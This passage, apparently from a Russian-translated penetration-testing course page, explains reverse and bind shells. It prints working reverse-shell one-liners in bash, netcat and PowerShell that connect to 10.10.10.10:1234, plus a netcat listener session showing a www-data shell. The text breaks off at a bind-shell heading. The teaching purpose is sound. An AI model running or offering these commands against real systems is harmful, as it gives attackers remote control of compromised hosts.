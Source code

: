 Код: Баш

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Код: Баш

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Код: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Мы можем использовать эксплойт, который у нас есть на удаленном хосте, для выполнения одной из вышеперечисленных команд, то есть с помощью эксплойта Python или модуля Metasploit, чтобы получить обратное соединение. Как только мы это сделаем, мы должны получить соединение в нашем `netcat` слушатель:

Типы снарядов

```shell-session
Uliam@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Как мы видим, после того, как мы получили соединение на нашем `netcat` прослушиватель, мы смогли ввести нашу команду и получить ее результат напрямую, прямо на нашей машине.

А `Reverse Shell`удобен, когда мы хотим получить быстрое и надежное соединение с нашим скомпрометированным хостом. Тем не менее, `Reverse Shell`может быть очень хрупким. Как только команда обратной оболочки будет остановлена ​​или если мы потеряем соединение по какой-либо причине, нам придется использовать первоначальный эксплойт, чтобы снова выполнить команду обратной оболочки, чтобы восстановить доступ.

---
## Bind Shell

Другой тип оболочки — `Bind Shell`. В отличие от `Reverse Shell` который подключается к нам, нам придется подключиться к нему по `targets'` прослушивающий порт.

Как только мы выполним `Bind Shell Command`, он начнет прослушивать порт на удаленном хосте и свяжет оболочку этого хоста, т. е. `Bash` или `PowerShell`, в этот порт. Нам нужно подключиться к этому порту с помощью `netcat`, и мы получим управление через оболочку этой системы.

---
#### Bind Shell Command
